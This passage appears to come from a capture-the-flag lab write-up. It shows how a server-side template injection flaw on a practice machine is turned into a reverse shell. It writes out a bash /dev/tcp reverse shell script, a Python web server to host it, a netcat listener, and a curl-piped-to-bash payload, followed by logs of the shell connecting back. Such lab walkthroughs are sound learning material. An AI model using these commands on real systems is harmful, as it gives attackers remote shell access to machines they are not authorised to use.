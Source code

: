 ```console
$ ./read.py

$ which curl
/usr/bin/curl

$ which bash
/usr/bin/bash
```
 
So there's `curl` and `bash` on the box.

First, create a file called `shell.sh`, the reverse shell command is referenced from [here](https://www.revshells.com/).
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.2/9999 0>&1
```

Second, host a web server where the `shell.sh` file is at. For me, I will be using the `SimpleHTTPServer` module from **Python 2**.
```console
$ python2 -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...
```

Third, setup a listener. I will be using netcat.
```console
$ nc -lnvp 9999

listening on [any] 9999 ...
```

Lastly, execute the following command using the SSTI vulnerability.
```console
$ ./read.py

$ curl http://10.10.14.2/shell.sh | bash
```

In my python2 web server...
```console
$ python2 -m SimpleHTTPServer 80      

Serving HTTP on 0.0.0.0 port 80 ...
10.10.11.122 - - [13/Nov/2022 04:42:01] "GET /shell.sh HTTP/1.1" 200 -
```

We got a connection, great! Next, let's check for the netcat listener...
```console
$ nc -lnvp 9999

listening on [any] 9999 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.122] 43426
bash: cannot set terminal process group (1024): Inappropriate ioctl for device
bash: no job control in this shell
david@nunchucks:/var/www/store.nunchucks$ 
```
